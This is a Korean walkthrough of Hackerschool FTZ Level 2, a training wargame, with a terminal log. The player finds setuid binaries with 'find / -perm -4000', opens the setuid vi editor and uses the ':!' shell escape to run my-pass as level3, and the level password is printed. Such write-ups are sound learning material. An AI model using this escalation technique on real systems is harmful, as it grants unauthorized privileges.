 # Hackerschool FTZ Level 02
```
login as: level2
level2@192.168.18.131's password:
[level2@ftz level2]$ ls
hint  public_html  tmp
[level2@ftz level2]$ cat hint


텍스트 파일 편집 중 쉘의 명령을 실행시킬 수 있다는데...


[level2@ftz level2]$ find / -perm -4000 -user level3 2>/dev/null
/usr/bin/editor
[level2@ftz level2]$ /usr/bin/editor
```
```
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
:!my-pass
```
```
Level3 Password is "can you fly?".


shell returned 37

Hit ENTER or type command to continue
```

리눅스 편집기에서 명령어를 실행할 수 있다 라는 힌트가 주어진 문제이다.

먼저 `find` 명령을 통해 level3 유저의 권한으로 실행시킬 수 있는 바이너리를 찾는다.  
그랬더니 `/usr/bin/editor` 이라는 바이너리가 보인다.

실행을 하면 vi 라는 편집기 화면이 나온다.  
vi 편집기 안에서는 `:!명령어` 를 통해 명령어 사용이 가능하다.


그렇다면 ftz 에서 다음 레벨의 비밀번호를 알 수 있는 `my-pass` 명령을 입력해본다.

`:!my-pass` 라고 입력하게 되면 level3 의 비밀번호를 얻을 수 있다.